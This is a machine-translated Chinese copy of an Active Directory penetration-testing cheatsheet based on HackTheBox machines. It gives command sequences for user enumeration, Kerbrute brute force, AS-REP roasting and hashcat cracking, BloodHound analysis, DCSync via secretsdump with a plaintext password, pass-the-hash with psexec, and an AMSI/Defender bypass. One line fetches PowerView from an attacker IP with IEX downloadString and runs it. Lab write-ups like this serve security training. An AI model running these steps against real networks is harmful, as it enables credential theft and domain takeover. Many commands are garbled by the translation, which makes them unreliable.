# Active Directory 渗透测试备忘单

> 原文：<https://infosecwriteups.com/active-directory-penetration-testing-cheatsheet-5f45aa5b44ff?source=collection_archive---------0----------------------->

入侵活动目录需要知道的一切

作为一个例子，这里我使用了一个 htb 盒

# 1)获取域名:

crackmapexec smb 10.10.10.175

smbmap -H 10.10.10.175 -u '' -p ' '

# 2)尝试获取用户列表:

egotistical-bank.local/-DC-IP 10 . 10 . 10 . 175-调试



# 轻型目录访问协议(LDAP)

。/windapsearch . py-U-full-DC-IP 10 . 10 . 10 . 182

上面的命令将列出域中的所有用户。



# 3)枚举股份:



# 4)从网站的团队名称中获取用户名列表:

。/username-anarchy-input-file full names . txt-select-format first，flast，first.last，firstl > unames.tx



# 5)获取用户列表的另一次尝试:



# 6)要获取域基:

ldapsearch -x -h 10.10.10.175 -s 基本命名上下文



# 7)获取有关域的更多信息:

LDAP search-x-h 10 . 10 . 10 . 175-b ' DC =个人银行，DC =本地'



# 8)域上的暴力用户:

利己主义银行。LOCAL/usr/share/sec lists/Usernames/xato-net-1000 万用户名. txt-DC 10 . 10 . 10 . 175


# 9)获取哈希

我将使用从 Kerbrute 收集的用户列表，并运行 [GetNPUsers.py](http://getnpusers.py/) 来查找易受攻击的用户。其中三个并不脆弱，但有一个给出了一个散列:

[GetNPUsers.py](http://getnpusers.py/) '自负的-银行。LOCAL/'-users file users . txt-format hashcat-output file hashes . aspreroast-DC-IP 10 . 10 . 10 . 175



# 10)破解哈希

hashcat-m 18200 hashes . aspreroast/usr/share/word lists/rock you . txt—force



# 侦探犬

我又跑了一次，但是没有什么新的东西引起我的注意。因为有广告的事情在进行，我去了 [Bloodhound](https://github.com/BloodHoundAD/BloodHound) 。

# 下载/安装

我会将存储库克隆到`/opt`中，并获得最新发布的二进制文件。我会用`neo4j start`启动`neo4j` ( `apt install neo4j`如果还没安装的话)，然后运行 Bloodhound。如果您以 root 用户身份运行，您将需要`-no-sandbox`标志。

如果是全新安装(或者如果您忘记了以前安装的密码，您可以删除`/usr/share/neo4j/data/dbms/auth`，然后就像全新安装一样)，我需要通过运行`neo4j console`，访问它返回的 url，并使用默认凭证 neo4j/neo4j 登录来更改`neo4j`密码。这将迫使密码改变他们在这一点上。现在警犬程序可以连接了，虽然我首先需要数据。

# 运行 SharpHound.exe

在我可以在 BloodHound 中进行分析之前，我需要收集一些数据。我将从 injestors 文件夹中抓取`SharpHound.exe`，并在我的 SMB 共享中创建一个副本。然后，我可以直接从那里运行它，输出也将写入共享:



# 分析结果

我将通过单击右上角的上传数据按钮将`.zip`文件导入 BloodHound。Tt 报告成功，留给我一张白纸。有些固定的查询可能有用，但是我喜欢从我已经可以访问的用户开始。我去搜索 SVC _ loan mgr @ egotic-BANK。在左上方的横条上，它出现在图表上。在左边，我想查找出站对象控制——这些是该用户拥有权限的项目。在这种情况下，有一个:



单击“1”将该项目添加到图表中:



此帐户有权访问域上的 GetChanges 和 GetChangesAll。谷歌搜索会很快找到一些关于 DCSync 攻击的文章，或者我可以右键单击标签(你必须找到正确的位置)并获得它的菜单:

单击“帮助”,会出现一个滥用信息选项卡，其中包含如何滥用此权限的说明:



# 12)直流同步

# 秘密转储

我更喜欢使用`secretsdump.py`进行 DCSync 攻击，它允许我从我的 Kali box 运行 DCSync 攻击，前提是我可以在 TCP 445 和 135 以及一个高 RPC 端口上与 DC 对话。这避免了与反病毒的冲突，尽管它确实会产生网络流量。

我需要给它一个目标字符串，格式为`[username]:[password]@[ip]`:

[secrets dump . py](http://secretsdump.py/)' SVC _ loan mgr:moneymakestheworld round！@10.10.10.175'



# 外壳

[psexec . py](http://psexec.py/)-hashes ' aad3b 435 b 51404 eeaad3b 435 b 51404 ee:d 9485863 C1 e9 e 05851 aa 40 cbb 4 ab 9 dff '-DC-IP 10 . 10 . 10 . 175[administrator @ 10 . 10 . 10 . 10 . 175](mailto:administrator@10.10.10.175)



# DCSync 攻击 V2



```
net user john abc123! /add /domainnet group "Exchange Windows Permissions" john /addnet localgroup "Remote Management Users" john /add
```

上面的命令创建了一个名为 john 的新用户，并将他添加到所需的组中。接下来，下载 PowerView 脚本并将其导入到当前会话中。



菜单>旁路-4MSI

Bypass-4MSI 命令用于在导入脚本之前避开 defender。接下来，我们可以将 Add-ObjectACL 用于 john 的凭证，并授予他 DCSync 权限。



```
IEX(New-Object Net.WebClient).downloadString('[<http://10.10.14.11/PowerView.ps1>](<http://10.10.14.11/PowerView.ps1>)')$pass = convertto-securestring 'abc123!' -asplain -force$cred = new-object system.management.automation.pscredential('htb\\john', $pass)Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity john -Rights DCSync
```

运行后:

[secrets dump . py](http://secretsdump.py/)htb/John @ 10 . 10 . 10 . 161

其中 htb 是域

Impacket 中的脚本现在可以作为 john 运行，并用于显示所有域用户的 NTLM 哈希。



获得的域管理散列可用于通过 psexec 登录。

